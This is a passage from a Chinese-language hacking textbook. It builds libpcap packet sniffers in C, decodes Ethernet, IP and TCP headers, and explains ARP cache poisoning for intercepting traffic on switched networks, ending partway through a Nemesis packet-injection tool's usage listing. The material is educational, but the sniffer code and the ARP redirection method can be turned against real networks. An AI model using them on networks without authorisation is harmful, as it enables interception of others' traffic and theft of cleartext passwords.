02 3c 20 ad 66 6a 73 64 61 6c 6b 66 6a 61 73 6b | .< .fjsdalkfjask
66 6a 61 73 64 0d 0a                            | fjasd..
reader@hacking:~/booksrc $
```

虽然这个程序可以捕获数据包，但它并不可靠，可能会错过一些数据包，尤其是在流量很大的时候。此外，它只捕获 TCP 数据包——要捕获 UDP 或 ICMP 数据包，需要为每个数据包打开额外的原始套接字。原始套接字的一个大问题是它们在系统之间非常不一致。Linux 的原始套接字代码很可能在 BSD 或 Solaris 上无法工作。这使得使用原始套接字进行多平台编程几乎不可能。

## libpcap 嗅探器

可以使用一个标准化的编程库 libpcap 来平滑原始套接字的不一致性。这个库中的函数仍然使用原始套接字来完成它们的魔法，但这个库知道如何在多个架构上正确地与原始套接字一起工作。tcpdump 和 dsniff 都使用 libpcap，这使得它们可以在任何平台上相对容易地编译。让我们用 libpcap 的函数重写原始数据包嗅探程序，而不是使用我们自己的。这些函数非常直观，所以我们将使用以下代码列表来讨论它们。

### pcap_sniff.c

```
#include <pcap.h>
#include "hacking.h"

void pcap_fatal(const char *failed_in, const char *errbuf) {
   printf("Fatal Error in %s: %s\n", failed_in, errbuf);
   exit(1); 
}
```

首先，包含 pcap.h 提供由 pcap 函数使用的各种结构和定义。我还编写了一个`pcap_fatal()`函数来显示致命错误。pcap 函数使用错误缓冲区来返回错误和状态消息，因此这个函数被设计为向用户显示这个缓冲区。

```
int main() {
   struct pcap_pkthdr header;
   const u_char *packet;
   char errbuf[PCAP_ERRBUF_SIZE];
   char *device;
   pcap_t *pcap_handle;
   int i;
```

`errbuf`变量是前面提到的错误缓冲区，其大小来自 pcap.h 中的一个定义，设置为`256`。头变量是一个`pcap_pkthdr`结构，包含有关数据包的额外捕获信息，例如捕获时间和长度。`pcap_handle`指针的工作方式类似于文件描述符，但用于引用一个数据包捕获对象。

```
device = pcap_lookupdev(errbuf);
if(device == NULL)
   pcap_fatal("pcap_lookupdev", errbuf);

printf("Sniffing on device %s\n", device);
```

`pcap_lookupdev()`函数寻找一个合适的设备进行嗅探。该设备作为字符串指针返回，引用静态函数内存。对于我们的系统，这始终是`/dev/eth0`，尽管在 BSD 系统上可能不同。如果函数找不到合适的接口，它将返回`NULL`。

```
pcap_handle = pcap_open_live(device, 4096, 1, 0, errbuf);
if(pcap_handle == NULL)
   pcap_fatal("pcap_open_live", errbuf);
```

与套接字函数和文件打开函数类似，`pcap_open_live()` 函数打开一个数据包捕获设备，并返回对该设备的句柄。此函数的参数包括要嗅探的设备、最大数据包大小、混杂标志、超时值以及错误缓冲区的指针。由于我们想要以混杂模式进行捕获，所以混杂标志被设置为 `1`。

```
for(i=0; i < 3; i++) {
      packet = pcap_next(pcap_handle, &header);
      printf("Got a %d byte packet\n", header.len);
      dump(packet, header.len);
   }
   pcap_close(pcap_handle);
}
```

最后，数据包捕获循环使用 `pcap_next()` 来获取下一个数据包。此函数接收 `pcap_handle` 和一个指向 `pcap_pkthdr` 结构的指针，以便填充捕获的详细信息。函数返回数据包的指针，然后打印数据包，从捕获头中获取长度。然后 `pcap_close()` 关闭捕获接口。

当这个程序编译时，必须链接 pcap 库。这可以通过 GCC 的 `-l` 标志来完成，如下面的输出所示。在这个系统上已经安装了 pcap 库，因此库和包含文件已经位于编译器已知的标准位置。

```
reader@hacking:~/booksrc $ gcc -o pcap_sniff pcap_sniff.c
/tmp/ccYgieqx.o: In function `main':
pcap_sniff.c:(.text+0x1c8): undefined reference to `pcap_lookupdev'
pcap_sniff.c:(.text+0x233): undefined reference to `pcap_open_live'
pcap_sniff.c:(.text+0x282): undefined reference to `pcap_next'
pcap_sniff.c:(.text+0x2c2): undefined reference to `pcap_close'
collect2: ld returned 1 exit status
reader@hacking:~/booksrc $ gcc -o pcap_sniff pcap_sniff.c -l pcap
reader@hacking:~/booksrc $ ./pcap_sniff
Fatal Error in pcap_lookupdev: no suitable device found
reader@hacking:~/booksrc $ sudo ./pcap_sniff
Sniffing on device eth0
Got a 82 byte packet
00 01 6c eb 1d 50 00 01 29 15 65 b6 08 00 45 10 | ..l..P..).e...E.
00 44 1e 39 40 00 40 06 46 20 c0 a8 2a 01 c0 a8 | .D.9@.@.F ..*...
2a f9 8b 12 1e d2 ac 14 cf c7 e5 10 6c c9 80 18 | *...........l...
05 b4 54 1a 00 00 01 01 08 0a 26 b6 a7 76 02 3c | ..T.......&..v.<
37 1e 74 68 69 73 20 69 73 20 61 20 74 65 73 74 | 7.this is a test
0d 0a                                           | ..
Got a 66 byte packet
00 01 29 15 65 b6 00 01 6c eb 1d 50 08 00 45 00 | ..).e...l..P..E.
00 34 3d 2c 40 00 40 06 27 4d c0 a8 2a f9 c0 a8 | .4=,@.@.'M..*...
2a 01 1e d2 8b 12 e5 10 6c c9 ac 14 cf d7 80 10 | *.......l.......
05 a8 2b 3f 00 00 01 01 08 0a 02 47 27 6c 26 b6 | ..+?.......G'l&.
a7 76                                           | .v
Got a 84 byte packet
00 01 6c eb 1d 50 00 01 29 15 65 b6 08 00 45 10 | ..l..P..).e...E.
00 46 1e 3a 40 00 40 06 46 1d c0 a8 2a 01 c0 a8 | .F.:@.@.F...*...
2a f9 8b 12 1e d2 ac 14 cf d7 e5 10 6c c9 80 18 | *...........l...
05 b4 11 b3 00 00 01 01 08 0a 26 b6 a9 c8 02 47 | ..........&....G
27 6c 41 41 41 41 41 41 41 41 41 41 41 41 41 41 | 'lAAAAAAAAAAAAAA
41 41 0d 0a                                     | AA..
reader@hacking:~/booksrc $
```

注意到数据包中样本文本之前有许多字节，其中许多字节是相似的。由于这些是原始数据包捕获，其中大部分字节是用于以太网、IP 和 TCP 的头部信息层。

## 解码层结构

在我们的数据包捕获中，最外层是以太网，这也是最低的可视层。这一层用于在具有 MAC 地址的以太网端点之间发送数据。这一层的头部包含源 MAC 地址、目的 MAC 地址以及一个描述以太网数据包类型的 16 位值。在 Linux 上，此头部的结构定义在 /usr/include/linux/if_ethernet.h 中，IP 头部的结构位于 /usr/include/netinet/ip.h 中，TCP 头部的结构位于 /usr/include/netinet/tcp.h 中。tcpdump 的源代码也有这些头部的结构，或者我们可以根据 RFCs 创建自己的头部结构。通过编写自己的结构可以获得更好的理解，因此让我们使用结构定义作为指导来创建自己的数据包头部结构，并将其包含在 hacking-network.h 中。

首先，让我们看看以太网头部的现有定义。

### 来自 /usr/include/if_ether.h

```
#define ETH_ALEN  6   /* Octets in one ethernet addr   */
#define ETH_HLEN  14    /* Total octets in header */

/*
 *  This is an Ethernet frame header.
 */

struct ethhdr {
  unsigned char h_dest[ETH_ALEN]; /* Destination eth addr */
  unsigned char h_source[ETH_ALEN]; /* Source ether addr  */
  __be16    h_proto;    /* Packet type ID field */
} __attribute__((packed));
```

此结构包含以太网头部的三个元素。`__be16` 变量的声明实际上是一个 16 位无符号短整数的类型定义。这可以通过在包含文件中递归地搜索类型定义来确定。

```
reader@hacking:~/booksrc $
$ grep -R "typedef.*__be16" /usr/include
`/usr/include/linux/types.h:typedef __u16 __bitwise __be16;`

$ grep -R "typedef.*__u16" /usr/include | grep short
/usr/include/linux/i2o-dev.h:typedef unsigned short __u16;
`/usr/include/linux/cramfs_fs.h:typedef unsigned short __u16;`
/usr/include/asm/types.h:typedef unsigned short __u16;
$
```

包含文件还定义了以太网头部长度为 `ETH_HLEN`，为 14 字节。这是合理的，因为源地址和目标 MAC 地址各占用 6 字节，而数据包类型字段是一个 16 位短整数，占用 2 字节。然而，许多编译器会为了对齐而在 4 字节边界上填充结构，这意味着 `sizeof(struct ethhdr)` 会返回错误的大小。为了避免这种情况，应该使用 `ETH_HLEN` 或 14 字节的固定值作为以太网头部长度。

通过包含 `<linux/if_ether.h>`，这些包含所需 `__be16` 类型定义的其他包含文件也被包含进来了。由于我们想要为 hacking-network.h 创建自己的结构，我们应该去除对未知类型定义的引用。在此过程中，让我们也给这些字段起更好的名字。

### 添加到 hacking-network.h

```
#define ETHER_ADDR_LEN 6
#define ETHER_HDR_LEN 14

struct ether_hdr {
  unsigned char ether_dest_addr[ETHER_ADDR_LEN]; // Destination MAC address
  unsigned char ether_src_addr[ETHER_ADDR_LEN];  // Source MAC address
  unsigned short ether_type; // Type of Ethernet packet
};
```

我们可以用相同的方法处理 IP 和 TCP 结构，使用相应的结构和 RFC 图作为参考。

### 来自 `/usr/include/netinet/ip.h`

```
struct iphdr
  {
#if __BYTE_ORDER == __LITTLE_ENDIAN
    unsigned int ihl:4;
    unsigned int version:4;
#elif __BYTE_ORDER == __BIG_ENDIAN
    unsigned int version:4;
    unsigned int ihl:4;
#else
# error "Please fix <bits/endian.h>"
#endif
    u_int8_t tos;
    u_int16_t tot_len;
    u_int16_t id;
    u_int16_t frag_off;
    u_int8_t ttl;
    u_int8_t protocol;
    u_int16_t check;
    u_int32_t saddr;
    u_int32_t daddr;
    /*The options start here. */
  };
```

### 来自 RFC 791

```
    0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |Version|  IHL  |Type of Service|          Total Length         |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |         Identification        |Flags|      Fragment Offset    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |  Time to Live |    Protocol   |         Header Checksum       |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                       Source Address                          |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Destination Address                        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Options                    |    Padding    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

                    Example Internet Datagram Header
```

结构中的每个元素都对应于 RFC 头部图示中的字段。由于前两个字段，版本和 IHL（互联网头部长度）只有四位大小，而在 C 中没有 4 位变量类型，Linux 头部定义根据主机的字节序不同而将字节分割成不同的部分。这些字段以网络字节序排列，因此，如果主机是小端字节序，IHL 应该在版本之前，因为字节序是相反的。就我们的目的而言，我们实际上不会使用这两个字段中的任何一个，所以我们甚至不需要分割字节。

### 添加到 hacking-network.h

```
struct ip_hdr {
  unsigned char ip_version_and_header_length; // Version and header length
  unsigned char ip_tos;          // Type of service
  unsigned short ip_len;         // Total length
  unsigned short ip_id;          // Identification number
  unsigned short ip_frag_offset; // Fragment offset and flags
  unsigned char ip_ttl;          // Time to live
  unsigned char ip_type;         // Protocol type
  unsigned short ip_checksum;    // Checksum
  unsigned int ip_src_addr;      // Source IP address
  unsigned int ip_dest_addr;     // Destination IP address
};
```

如前所述，编译器填充会将此结构对齐到 4 字节边界，通过填充结构的其余部分。IP 头部总是 20 字节。

对于 TCP 数据包头部，我们参考 `/usr/include/netinet/tcp.h` 中的结构以及 RFC 793 中的头部图示。

### 从 `/usr/include/netinet/tcp.h`

```
typedef u_int32_t tcp_seq;
/*
 * TCP header.
 * Per RFC 793, September, 1981.
 */
struct tcphdr
  {
    u_int16_t th_sport;   /* source port */
    u_int16_t th_dport;   /* destination port */
    tcp_seq th_seq;   /* sequence number */
    tcp_seq th_ack;   /* acknowledgment number */
#  if __BYTE_ORDER == __LITTLE_ENDIAN
    u_int8_t th_x2:4;   /* (unused) */
    u_int8_t th_off:4;    /* data offset */
#  endif
#  if __BYTE_ORDER == __BIG_ENDIAN
    u_int8_t th_off:4;    /* data offset */
    u_int8_t th_x2:4;   /* (unused) */
#  endif
    u_int8_t th_flags;
#  define TH_FIN  0x01
#  define TH_SYN  0x02
#  define TH_RST  0x04
#  define TH_PUSH 0x08
#  define TH_ACK  0x10
#  define TH_URG  0x20
    u_int16_t th_win;   /* window */
    u_int16_t th_sum;   /* checksum */
    u_int16_t th_urp;   /* urgent pointer */
};
```

### 来自 RFC 793

```
   TCP Header Format

     0                   1                   2                   3
     0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |          Source Port          |       Destination Port        |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |                        Sequence Number                        |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |                    Acknowledgment Number                      |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |  Data |           |U|A|P|R|S|F|                               |
    | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
    |       |           |G|K|H|T|N|N|                               |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |           Checksum            |         Urgent Pointer        |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |                    Options                    |    Padding    |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    |                             data                              |
    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

 Data Offset: 4 bits
     The number of 32 bit words in the TCP Header.  This indicates where
     the data begins.  The TCP header (even one including options) is an
     integral number of 32 bits long.
 Reserved: 6 bits
     Reserved for future use.  Must be zero.
 Options: variable
```

Linux 的 `tcphdr` 结构也会根据主机的字节序切换 4 位数据偏移字段和保留字段的 4 位部分。数据偏移字段很重要，因为它告诉我们可变长度 TCP 头部的大小。你可能已经注意到 Linux 的 `tcphdr` 结构没有为 TCP 选项保留任何空间。这是因为 RFC 将此字段定义为可选的。TCP 头部的大小总是 32 位对齐的，数据偏移告诉我们头部中有多少个 32 位字。因此，TCP 头部的大小（以字节为单位）等于头部中的数据偏移字段乘以四。由于数据偏移字段是计算头部大小所必需的，我们将包含它的字节分割，假设主机是小端字节序。

Linux 的 `tcphdr` 结构中的 `th_flags` 字段定义为 8 位无符号字符。在此字段以下定义的值是对应于六个可能标志的位掩码。

### 添加到 hacking-network.h

```
struct tcp_hdr {
  unsigned short tcp_src_port;   // Source TCP port
  unsigned short tcp_dest_port;  // Destination TCP port
  unsigned int tcp_seq;          // TCP sequence number
  unsigned int tcp_ack;          // TCP acknowledgment number
  unsigned char reserved:4;      // 4 bits from the 6 bits of reserved space
  unsigned char tcp_offset:4;    // TCP data offset for little-endian host
  unsigned char tcp_flags;       // TCP flags (and 2 bits from reserved space)
#define TCP_FIN   0x01
#define TCP_SYN   0x02
#define TCP_RST   0x04
#define TCP_PUSH  0x08
#define TCP_ACK   0x10
#define TCP_URG   0x20
  unsigned short tcp_window;     // TCP window size
  unsigned short tcp_checksum;   // TCP checksum
  unsigned short tcp_urgent;     // TCP urgent pointer
};
```

现在头部已定义为结构，我们可以编写一个程序来解码每个数据包的分层头部。但在我们这样做之前，让我们谈谈 libpcap。这个库有一个名为`pcap_loop()`的函数，它比简单地循环调用`pcap_next()`捕获数据包更好。实际上，很少的程序使用`pcap_next()`，因为它笨拙且效率低下。`pcap_loop()`函数使用回调函数。这意味着`pcap_loop()`函数传递一个函数指针，每次捕获数据包时都会调用该函数。`pcap_loop()`的原型如下：

```
int pcap_loop(pcap_t *handle, int count, pcap_handler callback, u_char *args);
```

第一个参数是 pcap 的处理句柄，下一个参数是要捕获的数据包数量，第三个参数是回调函数的函数指针。如果将计数参数设置为`-1`，它将循环直到程序跳出。最后一个参数是一个可选的指针，它将被传递给回调函数。自然地，回调函数需要遵循一定的原型，因为`pcap_loop()`必须调用这个函数。回调函数可以取任何你喜欢的名字，但参数必须如下：

```
void callback(u_char *args, const struct pcap_pkthdr *cap_header, const u_char *packet);
```

第一个参数是来自`pcap_loop()`最后一个参数的可选参数指针。它可以用来向回调函数传递额外信息，但我们不会使用它。接下来的两个参数应该来自`pcap_next()`：一个指向捕获头部的指针和一个指向数据包本身的指针。

以下示例代码使用`pcap_loop()`和回调函数来捕获数据包，并使用我们的头部结构来解码它们。这个程序将在代码列出时进行解释。

### decode_sniff.c

```
#include <pcap.h>
#include "hacking.h"
#include "hacking-network.h"

void pcap_fatal(const char *, const char *);
void decode_ethernet(const u_char *);
void decode_ip(const u_char *);
u_int decode_tcp(const u_char *);

void caught_packet(u_char *, const struct pcap_pkthdr *, const u_char *);

int main() {
   struct pcap_pkthdr cap_header;
   const u_char *packet, *pkt_data;
   char errbuf[PCAP_ERRBUF_SIZE];
   char *device;
   pcap_t *pcap_handle;

   device = pcap_lookupdev(errbuf);
   if(device == NULL)
      pcap_fatal("pcap_lookupdev", errbuf);

   printf("Sniffing on device %s\n", device);

   pcap_handle = pcap_open_live(device, 4096, 1, 0, errbuf);
   if(pcap_handle == NULL)
      pcap_fatal("pcap_open_live", errbuf);

   pcap_loop(pcap_handle, 3, caught_packet, NULL);

   pcap_close(pcap_handle);
}
```

在此程序的开头，声明了回调函数的原型，该函数名为`caught_packet()`，以及几个解码函数。`main()`函数中的其他内容基本上相同，只是将 for 循环替换为对`pcap_loop()`的单次调用。这个函数传递了`pcap_handle`，指示捕获三个数据包，并指向回调函数`caught_packet()`。最后一个参数是`NULL`，因为我们没有要传递给`caught_packet()`的额外数据。此外，请注意，`decode_tcp()`函数返回一个`u_int`。由于 TCP 头部长度是可变的，这个函数返回 TCP 头部的长度。

```
void caught_packet(u_char *user_args, const struct pcap_pkthdr *cap_header, const u_char
*packet) {
   int tcp_header_length, total_header_size, pkt_data_len;
   u_char *pkt_data;

   printf("==== Got a %d byte packet ====\n", cap_header->len);

   decode_ethernet(packet);
   decode_ip(packet+ETHER_HDR_LEN);
   tcp_header_length = decode_tcp(packet+ETHER_HDR_LEN+sizeof(struct ip_hdr));

   total_header_size = ETHER_HDR_LEN+sizeof(struct ip_hdr)+tcp_header_length;
   pkt_data = (u_char *)packet + total_header_size;  // pkt_data points to the data
 portion.
   pkt_data_len = cap_header->len - total_header_size;
   if(pkt_data_len > 0) {
      printf("\t\t\t%u bytes of packet data\n", pkt_data_len);
      dump(pkt_data, pkt_data_len);
   } else
      printf("\t\t\tNo Packet Data\n");
}

void pcap_fatal(const char *failed_in, const char *errbuf) {
   printf("Fatal Error in %s: %s\n", failed_in, errbuf);
   exit(1); 
}
```

当`pcap_loop()`捕获数据包时，会调用`caught_packet()`函数。这个函数使用头部长度来按层分割数据包，并使用解码函数打印出每层头部的详细信息。

```
void decode_ethernet(const u_char *header_start) {
   int i;
   const struct ether_hdr *ethernet_header;

   ethernet_header = (const struct ether_hdr *)header_start;
   printf("[[  Layer 2 :: Ethernet Header  ]]\n");
   printf("[ Source: %02x", ethernet_header->ether_src_addr[0]);
   for(i=1; i < ETHER_ADDR_LEN; i++)
      printf(":%02x", ethernet_header->ether_src_addr[i]);

   printf("\tDest: %02x", ethernet_header->ether_dest_addr[0]);
   for(i=1; i < ETHER_ADDR_LEN; i++)
      printf(":%02x", ethernet_header->ether_dest_addr[i]);
   printf("\tType: %hu ]\n", ethernet_header->ether_type);
}

void decode_ip(const u_char *header_start) {
   const struct ip_hdr *ip_header;

   ip_header = (const struct ip_hdr *)header_start;
   printf("\t((  Layer 3 ::: IP Header  ))\n");
   printf("\t( Source: %s\t", inet_ntoa(ip_header->ip_src_addr));
   printf("Dest: %s )\n", inet_ntoa(ip_header->ip_dest_addr));
   printf("\t( Type: %u\t", (u_int) ip_header->ip_type);
   printf("ID: %hu\tLength: %hu )\n", ntohs(ip_header->ip_id), ntohs(ip_header->ip_len));
}

u_int decode_tcp(const u_char *header_start) {
   u_int header_size;
   const struct tcp_hdr *tcp_header;

   tcp_header = (const struct tcp_hdr *)header_start;
   header_size = 4 * tcp_header->tcp_offset;

   printf("\t\t{{  Layer 4 :::: TCP Header  }}\n");
   printf("\t\t{ Src Port: %hu\t", ntohs(tcp_header->tcp_src_port));
   printf("Dest Port: %hu }\n", ntohs(tcp_header->tcp_dest_port));
   printf("\t\t{ Seq #: %u\t", ntohl(tcp_header->tcp_seq));
   printf("Ack #: %u }\n", ntohl(tcp_header->tcp_ack));
   printf("\t\t{ Header Size: %u\tFlags: ", header_size);
   if(tcp_header->tcp_flags & TCP_FIN)
      printf("FIN ");
   if(tcp_header->tcp_flags & TCP_SYN)
      printf("SYN ");
   if(tcp_header->tcp_flags & TCP_RST)
      printf("RST ");
   if(tcp_header->tcp_flags & TCP_PUSH)
      printf("PUSH ");
   if(tcp_header->tcp_flags & TCP_ACK)
      printf("ACK ");
   if(tcp_header->tcp_flags & TCP_URG)
      printf("URG ");
   printf(" }\n");

   return header_size; 
}
```

解码函数接收一个指向头部开始的指针，该指针被转换为适当的结构类型。这允许访问头部的各个字段，但重要的是要记住这些值将以网络字节序存储。这些数据直接来自线缆，因此需要将字节序转换为在*x*86 处理器上使用。

```
reader@hacking:~/booksrc $ gcc -o decode_sniff decode_sniff.c -lpcap
reader@hacking:~/booksrc $ sudo ./decode_sniff
Sniffing on device eth0
==== Got a 75 byte packet ====
[[  Layer 2 :: Ethernet Header  ]]
[ Source: 00:01:29:15:65:b6     Dest: 00:01:6c:eb:1d:50 Type: 8 ]
        ((  Layer 3 ::: IP Header  ))
        ( Source: 192.168.42.1  Dest: 192.168.42.249 )
        ( Type: 6       ID: 7755        Length: 61 )
                {{  Layer 4 :::: TCP Header  }}
                { Src Port: 35602       Dest Port: 7890 }
                { Seq #: 2887045274     Ack #: 3843058889 }
                { Header Size: 32       Flags: PUSH ACK  }
                        9 bytes of packet data
74 65 73 74 69 6e 67 0d 0a                      | testing..
==== Got a 66 byte packet ====
[[  Layer 2 :: Ethernet Header  ]]
[ Source: 00:01:6c:eb:1d:50     Dest: 00:01:29:15:65:b6 Type: 8 ]
        ((  Layer 3 ::: IP Header  ))
        ( Source: 192.168.42.249        Dest: 192.168.42.1 )
        ( Type: 6       ID: 15678       Length: 52 )
                {{  Layer 4 :::: TCP Header  }}
                { Src Port: 7890        Dest Port: 35602 }
                { Seq #: 3843058889     Ack #: 2887045283 }
                { Header Size: 32       Flags: ACK  }
                        No Packet Data
==== Got a 82 byte packet ====
[[  Layer 2 :: Ethernet Header  ]]
[ Source: 00:01:29:15:65:b6     Dest: 00:01:6c:eb:1d:50 Type: 8 ]
        ((  Layer 3 ::: IP Header  ))
        ( Source: 192.168.42.1  Dest: 192.168.42.249 )
        ( Type: 6       ID: 7756        Length: 68 )
                {{  Layer 4 :::: TCP Header  }}
                { Src Port: 35602       Dest Port: 7890 }
                { Seq #: 2887045283     Ack #: 3843058889 }
                { Header Size: 32       Flags: PUSH ACK  }
                        16 bytes of packet data
74 68 69 73 20 69 73 20 61 20 74 65 73 74 0d 0a | this is a test..
reader@hacking:~/booksrc $
```

解码头部并将它们分离成层后，TCP/IP 连接就更容易理解了。注意哪些 IP 地址与哪些 MAC 地址相关联。还要注意，从 192.168.42.1（第一个和最后一个数据包）的两个数据包中的序列号增加了九，因为第一个数据包包含九个字节的实际数据：2887045283 – 2887045274 = 9。这是 TCP 协议用来确保所有数据按顺序到达的，因为数据包可能会因为各种原因而延迟。

尽管数据包头部内置了所有这些机制，但数据包仍然对同一网络段上的任何人可见。FTP、POP3 和 telnet 等协议在传输数据时不进行加密。即使没有 dsniff 等工具的帮助，攻击者也很容易在网络嗅探中找到这些数据包中的用户名和密码，并利用它们来破坏其他系统。从安全角度来看，这并不太好，因此更智能的交换机提供了交换网络环境。

## 激活嗅探

在一个*交换网络环境*中，数据包只会发送到它们的目的端口，根据它们的 MAC 地址。这需要更智能的硬件来创建和维护一个将 MAC 地址与特定端口关联的表格，具体取决于连接到每个端口的设备，如图所示。

交换环境的优势在于，设备只会接收到为其发送的数据包，因此混杂设备无法嗅探任何额外的数据包。但在交换环境中，也有巧妙的方法来嗅探其他设备的数据包；它们只是稍微复杂一些。为了找到这些黑客技巧，必须检查协议的细节，并将它们结合起来。

网络通信的一个重要方面是可以用来产生有趣效果的源地址。这些协议中没有规定确保数据包中的源地址确实是源机器的地址。在数据包中伪造源地址的行为被称为*欺骗*。将欺骗添加到你的技巧包中大大增加了可能的黑客攻击数量，因为大多数系统都期望源地址是有效的。


图 0x400-7。

欺骗是交换网络中嗅探数据包的第一步。其他两个有趣的细节可以在 ARP 中找到。首先，当一个带有已存在于 ARP 缓存中的 IP 地址的 ARP 回复到来时，接收系统将用回复中找到的新信息覆盖先前的 MAC 地址信息（除非该 ARP 缓存条目被明确标记为永久）。其次，不保留 ARP 流量的状态信息，因为这需要额外的内存，并且会复杂化一个旨在简单的协议。这意味着系统会接受 ARP 回复，即使它们没有发送 ARP 请求。

这三个细节，如果被正确利用，允许攻击者使用一种称为*ARP 重定向*的技术来嗅探交换网络上的网络流量。攻击者向某些设备发送伪造的 ARP 回复，导致 ARP 缓存条目被攻击者的数据覆盖。这种技术被称为*ARP 缓存中毒*。为了嗅探两点之间的网络流量，即*A*和*B*，攻击者需要中毒*A*的 ARP 缓存，使*A*相信*B*的 IP 地址在攻击者的 MAC 地址上，同时也需要中毒*B*的 ARP 缓存，使*B*相信*A*的 IP 地址也在攻击者的 MAC 地址上。然后攻击者的机器只需将这些数据包转发到它们适当的最终目的地。之后，所有*A*和*B*之间的流量仍然被传递，但都流经攻击者的机器，如图所示。



图 0x400-8。

由于*A*和*B*根据它们各自的 ARP 缓存在自己的数据包上封装自己的以太网头部，因此*A*发往*B*的 IP 流量实际上被发送到攻击者的 MAC 地址，反之亦然。交换机仅根据 MAC 地址过滤流量，因此交换机将按设计工作，将*A*和*B*发往攻击者 MAC 地址的 IP 流量发送到攻击者的端口。然后攻击者将 IP 数据包重新封装到适当的以太网头部，并将它们发送回交换机，最终将它们路由到正确的目的地。交换机工作正常；被欺骗的是受害机器，它们被诱导通过攻击者的机器重定向流量。

由于超时值，受害机器将定期发送真实的 ARP 请求并接收真实的 ARP 回复作为响应。为了维持重定向攻击，攻击者必须保持受害机器的 ARP 缓存中毒。一种简单的方法是以恒定的间隔向 A 和 B 发送伪造的 ARP 回复——例如，每 10 秒一次。

*网关*是一个将本地网络的所有流量路由到互联网的系统。当受害机器之一是默认网关时，ARP 重定向特别有趣，因为默认网关和另一个系统之间的流量是该系统的互联网流量。例如，如果 192.168.0.118 的机器通过交换机与 192.168.0.1 的网关通信，流量将受到 MAC 地址的限制。这意味着这种流量在混杂模式下通常无法被嗅探。为了嗅探这种流量，它必须被重定向。

要重定向流量，首先需要确定 192.168.0.118 和 192.168.0.1 的 MAC 地址。这可以通过 ping 这些主机来完成，因为任何 IP 连接尝试都会使用 ARP。如果你运行一个嗅探器，你可以看到 ARP 通信，但操作系统会缓存结果的 IP/MAC 地址关联。

```
reader@hacking:~/booksrc $ ping -c 1 -w 1 192.168.0.1
PING 192.168.0.1 (192.168.0.1): 56 octets data
64 octets from 192.168.0.1: icmp_seq=0 ttl=64 time=0.4 ms
--- 192.168.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.4/0.4/0.4 ms
reader@hacking:~/booksrc $ ping -c 1 -w 1 192.168.0.118
PING 192.168.0.118 (192.168.0.118): 56 octets data
64 octets from 192.168.0.118: icmp_seq=0 ttl=128 time=0.4 ms
--- 192.168.0.118 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.4/0.4/0.4 ms
reader@hacking:~/booksrc $ arp -na
? (192.168.0.1) at 00:50:18:00:0F:01 [ether] on eth0
? (192.168.0.118) at 00:C0:F0:79:3D:30 [ether] on eth0
reader@hacking:~/booksrc $ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:00:AD:D1:C7:ED
          inet addr:192.168.0.193  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST NOTRAILERS RUNNING  MTU:1500  Metric:1
          RX packets:4153 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3875 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:100
          RX bytes:601686 (587.5 Kb)  TX bytes:288567 (281.8 Kb)
          Interrupt:9 Base address:0xc000 
reader@hacking:~/booksrc $
```

在 ping 之后，192.168.0.118 和 192.168.0.1 的 MAC 地址都出现在攻击者的 ARP 缓存中。这样，数据包在被重定向到攻击者机器后可以到达最终目的地。假设 IP 转发功能已编译到内核中，我们只需要定期发送一些欺骗的 ARP 响应。192.168.0.118 需要知道 192.168.0.1 在 `00:00:AD:D1:C7:ED`，而 192.168.0.1 需要知道 192.168.0.118 也在 `00:00:AD:D1:C7:ED`。这些欺骗的 ARP 数据包可以使用名为 Nemesis 的命令行数据包注入工具注入。Nemesis 最初是由 Mark Grimes 编写的工具套件，但在最新版本 1.4 中，所有功能都被新的维护者和开发者 Jeff Nathan 合并到一个单一的工具中。Nemesis 的源代码位于 LiveCD 的 /usr/src/nemesis-1.4/ 目录下，并且已经编译并安装。

```
reader@hacking:~/booksrc $ nemesis

NEMESIS -=- The NEMESIS Project Version 1.4 (Build 26)

NEMESIS Usage:
  nemesis [mode] [options]

NEMESIS modes:
  arp
  dns
  ethernet
  icmp
  igmp
  ip
  ospf (currently non-functional)
  rip
  tcp
